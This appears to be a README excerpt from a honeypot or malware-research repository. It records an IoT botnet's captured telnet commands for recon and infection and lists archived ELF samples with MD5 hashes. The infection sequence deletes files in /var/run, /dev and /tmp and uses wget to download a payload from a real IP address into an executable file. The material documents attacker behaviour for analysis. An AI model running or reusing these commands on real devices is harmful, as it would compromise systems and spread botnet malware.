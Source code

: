 ### Recon phase (example)
```
enable
shell
sh
/bin/busybox ZORRO
/bin/busybox wget
cat /proc/mounts && /bin/busybox ZORRO
/bin/busybox cat /bin/sh
```

### Infection phase (example)
```
enable
shell
sh
/bin/busybox rm -rf /var/run/* /dev/* /tmp/* /var/run/* >/dev/null 2>&1; /bin/busybox WOPBOT
/bin/busybox mkdir -p /var/run; /bin/busybox WOPBOT
/bin/busybox cp -f /bin/sh /var/run/oMNUckLhyt; /bin/busybox WOPBOT
/bin/busybox echo -ne '' > /var/run/oMNUckLhyt; /bin/busybox WOPBOT
/bin/busybox chmod 777 /var/run/oMNUckLhyt; /bin/busybox WOPBOT
/bin/busybox wget -O - http://85.118.98.197:61050/cyka/blyat/2.mp > /var/run/oMNUckLhyt && /bin/busybox WOPBOT
```

### Captured samples
* [1.mp](samples/1.mp.7z) (`ELF 32-bit, MIPS-I, MD5: eab8da47ff36cafd2662fd01b6959389`)
* [2.mp](samples/2_2.mp.7z) (`ELF 32-bit, MIPS-I, MD5: 78446a24075294968d1f48e76323665c`)
* [2.mp](samples/2.mp.7z) (`ELF 64-bit, MIPS-I, MD5: 4565f96cd8498a7e15ffa99e0d435d11`)
* [.arm](samples/arm.7z) (`ELF 32-bit, ARM, MD5: 8a7e32db13844f2d441340befd8dd8e9`)
* [.m68k](samples/m68k.7z) (`ELF 32-bit, Motorola 68020, MD5: 67c99761fac4c12e06fcf17fa1598360`)
* [.mp](samples/mp.7z) (`ELF 32-bit, MIPS-I, MD5: bdcee10dddb257baf6a84dd952f4c0dc`)
* [.mps](samples/mps.7z) (`ELF 32-bit, MIPS-I, MD5: 35e9948748c60f17f1f404e1debbb505`)
* [.ppc](samples/ppc.7z) (`ELF 32-bit, PowerPC, MD5: ad8c6e3fd1421a70a4df46117fa5da8b`)
* [.sh4](samples/sh4.7z) (`ELF 32-bit, Renesas SH, MD5: d82b630bc07d146f54f18861a0370243`)
* [.sparc](samples/sparc.7z) (`ELF 32-bit, SPARC, MD5: a14141949361398a8d9662b90168adeb`)

